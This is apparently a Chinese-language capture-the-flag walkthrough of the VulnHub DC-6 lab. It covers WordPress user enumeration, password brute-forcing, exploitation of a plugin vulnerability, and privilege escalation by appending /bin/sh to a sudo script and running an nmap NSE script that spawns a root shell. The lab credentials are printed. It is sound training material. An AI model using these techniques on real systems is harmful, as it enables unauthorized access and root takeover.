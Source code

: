 # DC6

- [参考](https://blog.csdn.net/weixin_43583637/article/details/102785246)

- [学习](https://www.vulnhub.com/entry/dc-6,315/)

- [下载](https://download.vulnhub.com/dc/DC-6.zip)

## 扫描

```
 nmap -sP 192.168.31.0/24
```

![](img/1.png)

```
nmap -sT -sV -T5 -A -p- 192.168.31.59 //继续使用nmap获取详细信息

```
![](img/2.png)

浏览器地址栏输入靶机IP,访问。

![](img/3.png)

这次真不是burp问题了。发现显示域名，但无法解析域名导致无法访问网站。(Burp这锅我不背，爬)

修改主机 `hosts` 文件，添加主机 `192.168.31.59 wordy`
```
vim /etc/hosts
192.168.31.59 wordy
```

![](img/4.png)

刷新一下，发现网站可以显示了。

![](img/5.png)


## 初探

发现整体和 DC-2 差不多，那就直接用 wpscan 扫一遍吧 

```
wpscan --url http://wordy -e u
```
![](img/6.png)

跑出5个用户，
```
admin
graham
mark
sarah
jens
```
那就继续按照 DC2 的方法继续爆破吧。 使用 [K8gege](https://github.com/k8gege/PasswordDic)top100跑试试看

```
wpscan --url http://wordy -U 1.txt -P 2.txt

```
![](img/8.png)

？？？？？？去百度看看

原来要使用特定的字典 我佛了

![](img/7.png)

> 红框为字典路径

## 中期

将/usr/share/wordlists下的rockyou.txt.gz解压缩

```
gunzip rockyou.txt.gz rockyou.txt
```
生成密码字典 pass.dic
```
cat /usr/share/wordlists/rockyou.txt | grep k01 > pass.dic

cat pass.dic
```

![](img/9.png)

密码已经生成，那就开搞吧！奥里给！

```
wpscan --url http://wordy -U 1.txt -P pass.dic 
```
![](img/10.png)

找到mark用户的登录密码
```
账号：mark
密码: helpdesk01
```

登陆到后台，随便点点。到这里一筹莫展，只能Google一下下一步咋办。

提示通过这个插件，查找该插件存在的漏洞，并利用！
![](img/11.png)

```
searchsploit activity monitor
```
小老弟还不少嘛。

![](img/12.png)


保存到 kali apache2目录上，并且进行修改。

![](img/13.png)

访问kali主机网页。

![](img/14.png)

直接拿到权限

老规矩
```
python -c 'import pty; pty.spawn("/bin/sh")'
```

## 提权

接下来就是提权了。

下意识的打了个 `sudo -l `命令看看有没有可以不用root执行的命令.

根据前期个靶机的经验这里我直接使用了cd /home 命令

![](img/15.png)


在cd了home目录下的前几个文件夹中在mark有收获

我们顺位到了mark 发现其中 `things-to-do.txt` 有意外发现

![](img/16.png)

得到 graham 尝试 ssh 连接他

![](img/17.png)


确认用户账号为：graham

密码为：GSo7isUM1D4

一番摸索在 mark的home 目录下 jens 文件夹中发现了一个脚本文件

![](img/18.png)

可惜没权限运行，只能搁置。
在其他文章中说 不能以graham身份运行该文件，所以要以新用户身份运行。

```
echo "/bin/sh" >> /home/jens/backups.sh
sudo -u jens /home/jens/backups.sh
```
成功运行脚本，切换成功。
在 jens 下看看有啥可以执行的。

```
$ sudo -l
Matching Defaults entries for jens on dc-6:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jens may run the following commands on dc-6:
    (root) NOPASSWD: /usr/bin/nmap

```

![](img/20.png)

!!! nmap 什么 马萨卡 我不知多久前记的 nmap 提权，今天终于要用到了吗？？ 👴的青春回来了！

接下来利用nmap脚本来提权

```
echo 'os.execute("/bin/sh")' > /tmp/root.nse
sudo nmap --script=/tmp/root.nse
```

```
cd /root
cat *
```

![](img/21.png)

(PS)做了两遍 第一次输错了怎么打都只有 # ，以为没跑出来关了重新搞了一遍 第二次才发现我打错了。希望大家做到这里的时候细心一点。奥里给

## 总结

该靶场大致要点为： 
1. wordpress爆破
2. wordpress插件漏洞
3. nmap提权

更新笔记：
1. 提权骚操作
2. 中间件
